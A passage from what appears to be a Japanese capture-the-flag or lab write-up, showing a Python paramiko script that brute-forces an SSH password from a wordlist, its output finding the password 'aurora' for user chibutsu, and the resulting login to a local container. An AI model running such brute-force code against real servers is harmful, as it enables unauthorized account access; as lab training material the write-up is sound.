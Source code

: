 ```

    for PASSWORD in file:

        # 改行コードを取り除く
        PASSWORD = PASSWORD.replace("\n", "")

        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        
        try:
            ssh.connect(hostname=HOST, port=PORT, username=USER, password=PASSWORD)
            print()
            print("SUCCESS!")
            print(f"username : {USER}")
            print(f"password : {PASSWORD}")

            sys.exit()
        except paramiko.AuthenticationException:
            print(f"{PASSWORD} is not correct")
        finally:
            ssh.close()
```

!!! Note
    paramikoというライブラリが必要です。`pip install paramiko`でインストールしてください。

このコードを実行した結果、パスワードが奇跡的に判明しました。
```
$ python bruteforce_ssh.py 
earth is not correct
planet is not correct
physics is not correct
...
tornado is not correct
storm is not correct

SUCCESS!
username : chibutsu
password : aurora
```

早速パスワードを用いて、SSHログインを試みます。
```
$ ssh chibutsu@localhost -p 22222
chibutsu@localhost's password:  # "aurora"と入力
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 6.5.0-1017-azure x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
chibutsu@960522125acf:~$ 
```
